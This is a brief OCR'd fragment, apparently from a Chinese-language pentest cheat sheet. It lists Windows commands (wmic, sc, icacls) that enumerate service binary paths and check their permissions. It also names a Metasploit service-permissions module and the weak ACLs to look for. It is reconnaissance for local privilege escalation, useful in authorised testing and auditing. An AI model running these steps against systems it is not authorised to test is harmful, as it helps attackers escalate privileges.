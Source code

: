	>for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt
	>for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"

	>sc query state=all | findstr "SERVICE_NAME:" >> Servicenames.txt
	>FOR /F %i in (Servicenames.txt) DO echo %i
	>type Servicenames.txt
	>FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt
	>FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
	或使用msf模块exploit/windows/local/service_permissions
	寻找BUILTIN\Users:(F)（完全访问）、BUILTIN\Users:(M)（修改访问）或 BUILTIN\Users:(W)（只写访问）
